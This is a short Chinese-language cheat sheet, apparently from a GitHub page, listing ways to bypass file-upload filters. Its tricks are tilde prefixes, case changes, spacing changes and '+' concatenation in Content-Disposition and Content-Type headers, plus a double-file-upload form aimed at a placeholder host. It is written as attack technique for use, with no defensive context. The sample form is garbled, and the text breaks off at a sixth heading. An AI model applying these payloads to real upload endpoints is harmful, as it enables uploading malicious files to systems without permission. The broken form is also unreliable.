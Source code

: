 **上传绕过思路**  

1\. 对文件的内容，数据。数据包进行处理。

```
Content-Disposition: form-data; 
# 将form-data;修改为~form-data，即：
Content-Disposition: ~form-data; 

```

2\. 通过替换大小写来进行绕过

```
Content-Disposition: form-data; 
Content-Type: application/octet-stream
#将Content-Disposition修改为content-Disposition
Content-Disposition: form-data; 
#将form-data修改为Form-data
Content-Disposition: Form-data; 
#将Content-Type修改为content-Type
content-Type: application/octet-stream

```

3\. 通过删减空格来进行绕过

```
Content-Disposition: form-data; 
Content-Type: application/octet-stream
将Content-Disposition: form-data //冒号后面 增加或减少一个空格
将form-data; ;   //分号后面 增加或减少一个空格
将Content-Type: application/octet-stream //冒号后面 增加一个空格

```

4\. 通过字符串拼接绕过

```
看Content-Disposition: form-data; 
将 form-data 修改为   f+orm-data
将 from-data 修改为   form-d+ata

```

5\. 双文件上传绕过

```
<form action="https://www.xxx.com/xxx.asp(php)" method="post"
multipart/form‐data">
<input >
<input >
<input type="submit" >
</form>

```

6.HTTP header 属性值绕过
